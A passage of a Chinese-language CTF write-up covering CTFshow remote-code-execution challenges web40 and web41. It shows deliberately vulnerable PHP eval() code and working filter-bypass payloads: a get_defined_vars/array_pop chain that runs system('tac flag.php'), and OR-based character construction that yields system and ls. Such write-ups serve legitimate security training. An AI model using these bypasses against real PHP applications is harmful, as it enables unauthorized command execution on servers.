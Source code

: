 # CTFSHOW

### RCE

#### web40

![image-20210907154322686](C:\Users\12283\AppData\Roaming\Typora\typora-user-images\image-20210907154322686.png)

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```



```
exp:
/?c=eval(array_pop(next(get_defined_vars())));
post: a=system("tac flag.php");
```

**get_defined_vars():获取所有定义的变量**

**next():下一个**

**array_pop():弹出数组值**



#### web41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/

if(isset($_POST['c'])){
    $c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){
        eval("echo($c);");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

发现“|”没有被ban，对字符进行或运算从而得到需要的字符。

脚本走一波。

```bash
PS G:\vscode\python\WEB> python 或构造字符.py http://a7518eab-d2ad-4004-b8a0-9d256dd16536.challenge.ctf.show:8080/

[+] your function：system
[+] your command：ls
```

### web 42

